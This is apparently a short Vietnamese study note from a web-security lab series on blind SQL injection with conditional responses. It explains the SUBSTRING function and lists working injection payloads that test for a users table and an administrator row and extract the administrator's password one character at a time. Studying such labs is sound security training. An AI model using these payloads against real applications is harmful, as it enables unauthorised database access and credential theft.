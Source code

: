 ![Alt text](bin/image-5.png)

---

# Blind SQL injection

## Exploiting blind SQL injection by triggering conditional responses

- Ta sẽ tận dụng việc trả lời đúng sai của chương trình để kiểm tra từng kí tự của mật khẩu, thông tin ...
- `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'm`
- `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
  SUBSTRING(string, start_position, length)
- Trong đó:
  - string là chuỗi mà bạn muốn trích xuất phần tử.
  - start_position là vị trí bắt đầu trích xuất. Vị trí đầu tiên trong chuỗi là 1.
  - length là độ dài của phần được trích xuất.

### Lab: Blind SQL injection with conditional responses

#### Kiểm tra bảng users

`' AND (SELECT 'a' FROM users LIMIT 1)='a`

#### Kiểm tra hàng administrator

`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
